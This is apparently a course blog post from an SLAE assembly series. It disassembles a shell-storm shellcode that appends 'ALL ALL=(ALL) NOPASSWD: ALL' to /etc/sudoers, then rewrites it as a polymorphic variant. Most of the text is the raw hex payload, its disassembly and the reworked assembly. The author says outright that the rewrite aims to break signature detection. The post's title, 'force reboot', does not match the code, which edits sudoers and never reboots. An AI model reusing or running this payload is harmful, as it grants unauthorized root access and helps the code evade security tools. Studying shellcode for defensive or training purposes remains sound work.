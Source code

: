 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - force reboot
date:   2019-03-06
categories: [SLAE, Assembly]
---
```

The 3rd shellcode we will try to make a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-62.php\
The length is 86 bytes giving us a maximum of 129 bytes.

Let's chec the shellcode:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open\
Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at polymorphic code.

So let's 0 out eax and push it to the stack.  We are going to subtract eax from itself to get 0, we will move that value to the stack pointer and update the stack pointer ourselves.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ecx and eax, 
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next we move the return value into ebx 0 out eax push the null value, then we will break up the PASS in our stack string hoping it will break up any detection on the string.\
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, edx and eax then make the call.\
My edx was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update al for the close call.
```nasm
mov al, 0x6
int 0x80
```
Last call we need to zero out ebx and make eax = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes!
